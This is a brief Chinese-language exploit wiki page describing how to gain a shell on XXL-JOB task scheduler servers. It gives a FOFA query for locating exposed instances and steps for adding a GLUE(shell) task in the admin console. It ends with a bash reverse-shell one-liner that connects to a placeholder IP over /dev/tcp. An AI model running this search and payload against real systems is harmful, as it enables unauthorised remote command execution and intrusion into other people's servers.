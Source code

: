 FOFA
----

    app="XXL-JOB" || title="任务调度中心"

漏洞利用
--------

登錄後台增加一個任務:

![](Xxl-4.png "Xxl-4.png")

注意運行模式需要為 GLUE(shell)

![](Xxl-5.png "Xxl-5.png")

點擊 GLUE IDE編輯腳本

![](Xxl-6.png "Xxl-6.png")

![](Xxl-7.png "Xxl-7.png")

執行探測出網，和任務調用是否可執行

反彈一個shell

    #!/bin/bash
    bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1'

參考
----

<https://short.pwnwiki.org/?c=PaRcxf>